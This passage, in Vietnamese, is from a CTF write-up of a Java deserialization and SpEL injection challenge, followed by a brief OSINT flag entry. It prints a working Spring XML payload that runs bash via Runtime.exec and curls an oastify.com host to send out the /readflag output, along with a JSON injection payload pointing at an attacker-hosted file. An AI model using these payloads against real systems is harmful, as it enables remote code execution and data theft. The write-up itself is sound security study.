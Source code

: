 4. Sau đó check từng Item trong List vừa mapper có kiểu dữ liệu nào. Ở đây điều mà chúng ta cần quan tâm nhất đó chính là đoạn sau. Đây là 1 cách trong Java để tạo các đối tượng dynamic từ data input.
![image](https://hackmd.io/_uploads/SJW1BYSH0.png)

- Nó thực hiện ngắt các argument bằng dấu `|` trong item.value
- Lấy tên class từ args[0]
- Lấy constructor của lớp vừa tạo bên trên với tham số kiểu String
- Tạo 1 instance của lớp vừa tạo
- Đưa nó vào biến result
    
Author của bài này hướng player đến việc tìm kiếm các gadget là các libraries được load vào trong app, mà cho phép bạn khởi tạo class như kiểu là `constructor.newInstance(args)`

```xml=
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
        xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://www.springframework.org/schema/beans
        http://www.springframework.org/schema/beans/spring-beans.xsd">
<bean class="#{T(java.lang.Runtime).getRuntime().exec(
        new String[] {
        '/bin/bash', '-c', 'curl kd11rpy190vlsttafaar26d3xu3lrcf1.oastify.com/?flag=$(/readflag|base64)'
        }
        )}"></bean>
</beans>
```
Payload trên sử dụng `T(class)` rất hữu dụng trong việc khởi tạo class từ các cái tên hợp lệ. Theo đó, mình sẽ khởi tạo 1 class nh`org.springframework.context.support.FileSystemXmlApplicationContext`. Nó sẽ parse external XML sử dụng template processing, cái mà có thể host ở trên server của mình. 
P/s: Phase 3 này liên quan đến khá là nhiều thứ như [CVE-2023-46604](https://vulncheck.com/blog/cve-2023-44604-activemq-in-memory) và SpEL Injection mà mình chưa có research kĩ lắm, cho nên viết cũng chưa được clear. 

Payload khi đưa vào serial sẽ như sau: `[{"type":"object","name":"TypeReference","value":"org.springframework.context.support.FileSystemXmlApplicationContext|' + ATTACKER + '"}]`

Giờ mình sẽ thực hiện lại các bước để giải bài này:

1. ![image](https://hackmd.io/_uploads/SkIeRYSHC.png)
2. ![image](https://hackmd.io/_uploads/HJT2RtBHC.png)
3. ![image](https://hackmd.io/_uploads/BJnIicSSR.png)
4. ![image](https://hackmd.io/_uploads/S1hQlqBrA.png)


# OSINT

## Th3Hun7 1

Flag: AKASEC{Wh4T_a_PfP_:3}

![image](https://github.com/FPTU-Ethical-Hackers-Club/CTF-Writeup/assets/120787381/f11b1e76-740d-4124-bd31-95a30d0362dd)
